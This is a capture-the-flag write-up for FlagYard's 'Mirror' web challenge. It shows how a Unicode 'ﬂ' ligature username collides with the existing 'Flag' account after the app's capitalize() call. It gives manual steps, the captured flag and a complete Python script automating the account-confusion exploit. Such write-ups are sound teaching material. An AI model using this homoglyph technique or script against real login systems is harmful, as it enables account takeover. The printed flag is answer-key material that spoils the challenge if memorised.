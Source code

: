```yaml
---
layout: post
title: "FlagYard Mirror Web Challenge"
categories: [CTF Writeup, Web Exploitation]
tags: [FlagYard Writeup, Mirror Challenge, Web Exploitation]
description: "Step-by-Step Writeup for FlagYard's Mirror Web Challenge"
pin: true
---
```


# Challenge Overview
This writeup provides an automated & manual solution to the "**Mirror**" challenge, which is worth 200 points in the web category on the FlagYard platform. The challenge involves exploiting the login system of the website to extract the flag from `flag.txt`.

![Mirror Challenge](https://i.ibb.co/QfyDVf5/mirror-1.png)

# Application Functionality
The application provides `sign_up`, `account`, and `login` endpoints for account management. Here's how it works:

## Sign-Up:
Users can create an account by submitting a username and password. The password is hashed using MD5, and the username is converted to lowercase before being stored in the database. If the username is taken, an error is shown; otherwise, the user is redirected to the login page.

![Sign-Up page](https://i.ibb.co/QpT3Bcj/mirror-2-signup.png)

## Log-In:
Users log in with their credentials, and if valid, the username is stored in the session with the first letter capitalized and the rest is converted to lower case (e.g., fLag becomes Flag).

![Log-In page](https://i.ibb.co/n001xK3/mirror-1-login.png)

```
if logged_in:
    session['user'] = logged_in['username'].capitalize()
    return redirect(url_for('account'))
```

## Account:
The account dashboard displays the flag.

![Account](https://i.ibb.co/82HzhRH/mirror-3-account.png)

# Exploitation Plan
Now if you take a look closely in the `app.py`:

```
        if user == 'Flag':
            return render_template('account.html', user=user, secret=open('flag.txt').read())
        return render_template('account.html', user=user)
    return redirect('/login')
```

This code means that the application prints the flag in `account.html`, but in order to get the flag we should have the user as `Flag`. But, we cannot enter the user `Flag` or `flag` as it is already registered, and we don't know it's password.

To get the username as `Flag`, we will be using **Homologyphs** in the username.

> **Homologyph:** A homoglyph is a character or letter that looks similar to another character or letter, but has a different meaning. For example, the letter "O" looks similar to the number "0", and the uppercase "I" looks similar to the lowercase "l" in a sans serif font.

So that means we have to use the homologyph of `f` or more letters? Yes! That's right.

In this case we will be using the homologyph of `fl` which I found from this [Website](https://www.compart.com/en/unicode/U+FB02). You can also find variety of homologyphs from this [GitHub Repo](https://github.com/codebox/homoglyph/blob/master/raw_data/chars.txt).

![Homologyph of fl](https://i.ibb.co/gjxNSx1/mirror-5-homologyph.png)

## Exploitation:

1. Firstly, go the the `sign_up` endpoint and register a new user with the `ﬂag` username.
The `ﬂ` used is a homologyph of `fl`.
2. Enter any password, it does not matters.
3. Now go to the `login` page and log-in with the same user and password entered before.
4. You will be prompted to the `account` page where the flag will be displayed :D

![Flag Found](https://i.ibb.co/GvzqKnv/mirror-4-flag.png)

**Flag:** `FlagY{a465936087fffb0eac1029fc61064d48}`

## Exploit Automation:
Here's the python script to automate the process!
```
import requests


BASE_URL = "http://url.playat.flagyard.com"  # Replace with the actual URL
# Do not add a slash (/) after the URL!

USERNAME = "ﬂag"  # Homoglyph for 'flag'
PASSWORD = "password123"  # Dummy password

def register():
    """Registers a new user with the homoglyph username."""
    url = f"{BASE_URL}/sign_up"
    data = {"username": USERNAME, "password": PASSWORD}
    response = requests.post(url, data=data)
    if response.status_code == 200:
        print("[+] Registration successful.")
    else:
        print("[-] Registration failed.")
        print(response.text)

def login():
    """Logs in with the homoglyph username and retrieves the flag."""
    url = f"{BASE_URL}/login"
    data = {"username": USERNAME, "password": PASSWORD}
    response = requests.post(url, data=data)
    
    if response.status_code == 200 and "Set-Cookie" in response.headers:
        print("[+] Login successful.")
        cookies = response.cookies
        return cookies
    else:
        print("[-] Login failed.")
        print(response.text)
        return None

def get_flag(cookies):
    """Accesses the account page to retrieve the flag."""
    url = f"{BASE_URL}/account"
    response = requests.get(url, cookies=cookies)
    
    if response.status_code == 200 and "Flag" in response.text:
        print("[+] Flag found!")
        flag_start = response.text.find("Flag")
        flag_end = response.text.find("</", flag_start)
        print("Flag:", response.text[flag_start:flag_end])
    else:
        print("[-] Failed to retrieve flag.")
        print(response.text)

if __name__ == "__main__":
    print("[*] Starting exploitation...")
    register()
    cookies = login()
    if cookies:
        get_flag(cookies)
```

---

Happy Hunting! Follow me on [Twitter/X](https://twitter.com/an0nbil) or connect to me on [LinkedIn](https://www.linkedin.com/in/bilal-sec/)!
